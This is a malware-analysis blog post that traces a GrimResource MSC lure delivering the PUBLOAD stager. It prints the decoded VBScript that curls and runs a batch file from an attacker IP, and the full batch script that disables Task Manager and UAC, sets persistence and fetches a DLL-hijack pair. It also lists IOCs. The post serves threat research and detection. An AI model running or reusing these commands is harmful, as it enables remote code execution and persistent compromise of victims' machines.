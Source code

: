 ```yaml
---
title: PUBLOAD Likely Delivered to Thailand via GrimResource MSC
by: dmpdump
tags: malware RE CTI apt cn
---
```


On December 20, 2024, a Microsoft Management Console (MSC) file named "Invitation Letter.msc" was uploaded from Thailand to VirusTotal.

* File name: Invitation Letter.msc
* Hash: 5b18f8b379cb32945ef7722b7ec175f5d24e7c468f6f5d593c51610f6b87f21f

![sshot](/assets/images/PUBLOAD_Thai/vt_upload.png) 

I have been tracking the use of trojanized MSC files since ~ early 2024, which increased temporarily after Elastic published their [GrimResource -  Microsoft Management Console for initial access and evasion](https://www.elastic.co/security-labs/grimresource) article.

Invitation Letter.msc implements a curl download for a batch file using the GrimResource technique.

![sshot](/assets/images/PUBLOAD_Thai/grimres.png) 

The URL-decoded script shows the batch file download and execution:

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
	<![CDATA[
Set wshshell = CreateObject("WScript.Shell")
Wshshell.run "cmd.exe /c conhost.exe --headless --width 20 --height 30 curl -s --progress-bar --retry 98 -C - --output C:\Users\Public\jisu.bat http://185[.]62.57.118/jisu.RAR & C:\Users\Public\jisu.bat"
]]></ms:script>
</stylesheet>
```
Jisu.bat performs the following actions:
* It disables the Task Manager via a registry change (setting DisableTaskMgr to 1)
* It modifies the EnableLUA value in the System Policies, setting it to 0. This disables UAC notifications (UAC was formerly known as LUA)
* It establishes persistence for jisucommon.exe via the registry run key
* It creates a scheduled task named Office_Settings to download and execute jisu.bat every 6 minutes
* It downloads jisucommon.exe and FileAssociation.dll to the Public folder
* It runs jisucommon.exe

```batch
@echo off
start /min
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskmgr /t REG_DWORD /d 1 /f
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v jisucommon /t reg_sz /d C:\Users\Public\jisucommon.exe /f
schtasks /Create /F /TN Office_settings /SC minute /MO 6 /TR "cmd.exe /c curl -s --retry 99 -C - --output C:\Users\Public\jisu.bat http://185[.]62.57.118/jisu.RAR & C:\Users\Public\jisu.bat"
curl -s --retry 99 -C - --output C:\Users\Public\jisucommon.exe http://185[.]62.57.118/jisucommon.rar
curl -s --retry 99 -C - --output C:\Users\Public\FileAssociation.dll http://185[.]62.57.118/FileAssociation.rar
cd C:\Users\Public\
jisucommon.exe
exit
```
Jisucommon.exe is a legitimate executable associated with Jisu Office, a legitimate application that seems to offer file converters. The threat actor used this legitimate application for DLL hijacking purposes, loading a malicious FileAssociation.dll, which is dynamically loaded by jisucommon.exe

![sshot](/assets/images/PUBLOAD_Thai/jisucommon.png) 
![sshot](/assets/images/PUBLOAD_Thai/fileassocload.png) 

FileAssociation.dll has a PDB path with a tone of humor, as it has been referenced in previous reports. The username associated with the project is 'FBI'.
![sshot](/assets/images/PUBLOAD_Thai/pdb.png)

The legitimate executable and the trojanized DLL are copied to ProgramData for persistence.
![sshot](/assets/images/PUBLOAD_Thai/copiedfiles.png)

Two types of persistence are implemented: A scheduled task, and via the registry run key.

<u>Registry run key in HKLM and HKCU:</u>

![sshot](/assets/images/PUBLOAD_Thai/regpersist.png)

<u>Scheduled Task:</u>

![sshot](/assets/images/PUBLOAD_Thai/schtaskpersist.png)

The DLL decrypts an embedded shellcode and loads it via a callback function, using EnumPropsExW().

![sshot](/assets/images/PUBLOAD_Thai/scdecryptexec.png)

The decrypted shellcode is a PUBLOAD stager, previously reported by [Cisco](https://blog.talosintelligence.com/mustang-panda-targets-europe/) and [TrendMicro](https://www.trendmicro.com/en_us/research/22/k/earth-preta-spear-phishing-governments-worldwide.html). The shellcode implements a common API hashing algorithm using ROR13. The following APIs are resolved via the hashing algorithm:

![sshot](/assets/images/PUBLOAD_Thai/loadlibgetproc.png)
![sshot](/assets/images/PUBLOAD_Thai/resapis.png)

The shellcode establishes a socket connection to 45.150.128\[.\]212:443, and it's able to receive and execute additional shellcodes. The information harvested and sent to the C2 (volume serial number, computer name, username, uptime) is encrypted with the same RC4 key reported by Cisco and Trend Micro.
![sshot](/assets/images/PUBLOAD_Thai/rc4key.png)


# IOCs
* Invitation Letter.msc: 5b18f8b379cb32945ef7722b7ec175f5d24e7c468f6f5d593c51610f6b87f21f
* Initial payload delivery: 185\[.\]62.57.118
* jisu.bat: 51a180669443596d313f27f9d4a59eff8b79856d9656828935b55cfcd2e234de
* jisucommon.exe: 381b0dac4c410ebaa37ee1172461a84bea87e9b0c32648556f42b9d510afe8cd
* FileAssociation.dll: d0cf78977f2b744ae3fd88da6532c3ff08af2961f553a7469e7416445d4f4432 
* C2: 45.150.128\[.\]212:443

# Previous reports
* [https://blog.talosintelligence.com/mustang-panda-targets-europe/](https://blog.talosintelligence.com/mustang-panda-targets-europe/)
* [https://www.trendmicro.com/en_us/research/22/k/earth-preta-spear-phishing-governments-worldwide.html](https://www.trendmicro.com/en_us/research/22/k/earth-preta-spear-phishing-governments-worldwide.html)
* [https://www.elastic.co/security-labs/grimresource](https://www.elastic.co/security-labs/grimresource)
